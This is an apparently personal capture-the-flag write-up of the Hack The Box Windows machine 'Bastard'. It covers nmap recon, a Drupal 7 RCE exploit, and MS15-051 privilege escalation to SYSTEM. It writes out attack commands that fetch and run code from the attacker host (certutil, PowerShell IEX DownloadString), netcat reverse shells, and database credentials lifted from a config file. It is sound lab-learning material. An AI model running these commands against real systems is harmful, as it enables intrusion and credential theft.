# Hackthebox - Bastard

- Windows



- [Box on HTB](https://app.hackthebox.com/machines/7)

## Nmap

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -T4 -sC -sV -O -Pn -p- 10.10.10.9                                                                                                                                                                                          1 ⨯
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-05 10:43 EDT
Nmap scan report for 10.10.10.9
Host is up (0.032s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
|_http-generator: Drupal 7 (http://drupal.org)
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|Vista|7|Phone|8.1|2012 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_server_2012:r2
Aggressive OS guesses: Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8.1 (90%), Microsoft Windows 7 (90%), Microsoft Windows 7 Professional or Windows 8 (90%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (90%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 169.73 seconds
```

## Port 80



- We have a login page
- The robots.txt file has a lot of entries
```txt
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/robotstxt.html

User-agent: *
Crawl-delay: 10
# CSS, JS, Images
Allow: /misc/*.css$
Allow: /misc/*.css?
Allow: /misc/*.js$
Allow: /misc/*.js?
Allow: /misc/*.gif
Allow: /misc/*.jpg
Allow: /misc/*.jpeg
Allow: /misc/*.png
Allow: /modules/*.css$
Allow: /modules/*.css?
Allow: /modules/*.js$
Allow: /modules/*.js?
Allow: /modules/*.gif
Allow: /modules/*.jpg
Allow: /modules/*.jpeg
Allow: /modules/*.png
Allow: /profiles/*.css$
Allow: /profiles/*.css?
Allow: /profiles/*.js$
Allow: /profiles/*.js?
Allow: /profiles/*.gif
Allow: /profiles/*.jpg
Allow: /profiles/*.jpeg
Allow: /profiles/*.png
Allow: /themes/*.css$
Allow: /themes/*.css?
Allow: /themes/*.js$
Allow: /themes/*.js?
Allow: /themes/*.gif
Allow: /themes/*.jpg
Allow: /themes/*.jpeg
Allow: /themes/*.png
# Directories
Disallow: /includes/
Disallow: /misc/
Disallow: /modules/
Disallow: /profiles/
Disallow: /scripts/
Disallow: /themes/
# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPGRADE.txt
Disallow: /xmlrpc.php
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/
```

- From this we see that we have a parameter q to query for specific pages and we have an idea of the sitemap
- It seems to be using Drupal 7  

- It does indeed we can find a changelog file and it mentions version 7.54


### Searchsploit on drupal



- This version seems to be vulnerable to RCE. And it has a PoC
- We should try to explore more and find credentials because the exploit closer to our version is authenticated.
- We can take the 44449 in ruby `searchsploit -m 44449 .`

> If like me you get this error `<internal:/usr/lib/ruby/vendor_ruby/rubygems/core_ext/kernel_require.rb>:85:in `require': cannot load such file -- highline/import (LoadError)`  
> You need to install highline with `sudo gem install highline`

- When just need to run and we will have command execution  

  

- We have a user named dimitris. We can grab the user flag  



- We get a netcat binary in our target (we serve it using python and get it with certutil) `certutil.exe -urlcache -f http://10.10.14.9/nc.exe nc.exe`
- Let's get a more interactive shell `nc.exe -e cmd.exe 10.10.14.9 4444` (we also need to setup a listener `rlwrap nc -lvp 4444`)  

  

- We get a better shell  



- We have some creds in sites\default\settings.php

```bash
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'root',
      'password' => 'mysql123!root',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
$drupal_hash_salt = 'sHsUB6KgUSo7-xB5HyYfAcgpyy9R8xPGkMIUolnT-yY';
```

## Privesc

- Here are the systeminfo

```dos
Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          5/9/2022, 5:42:02 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.603 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.630 MB
Virtual Memory: In Use:    465 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
```

- We can run winpeas. We will use the bat version because the exe does not work. (not really helpful here)
- We can try sherlock that can be found [here](https://github.com/rasta-mouse/Sherlock) or here on kali if you have empire installed: `/usr/share/powershell-empire/empire/server/data/module_source/privesc/Sherlock.ps1`
- `cp /usr/share/powershell-empire/empire/server/data/module_source/privesc/Sherlock.ps1 /home/kali/Documents/hackthebox/bastard` copying it to my working directory
- At the end of the script we need to add a line `Find-AllVulns` like this  

- `echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.3/Sherlock.ps1') | powershell -noprofile -` We download our script and execute it. And it works we get a lot of info.
- We find 2 possible exploits

```dos
Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Appears Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable
```

### MS15-051

- The given exploit by sherlock requires metasploit. If we search around a little we find [this article](https://vk9-sec.com/windows-exploit-ms15-051-cve-2015-1701-privilege-escalation/) that gives an exploit without metasploit
- `wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip` get the exploit in our kali
- `unzip MS15-051-KB3045171.zip` we unzip it
- `certutil.exe -urlcache -f http://10.10.14.3/ms15-051x64.exe exploit64.exe` we get the exploit (we need x64 see systeminfo above)
- We launch it it needs a command we will use cmd `exploit64.exe cmd` and get an autority system shell.  
We could also have used a command like `nc.exe IP-OF-KALI PORT -e cmd.exe` and we would get a reverse shell as system (do not forget to set up a listener if you do this)  
  
- We just need to grab the root flag `type C:\Users\Administrator\Desktop\root.txt`  
  
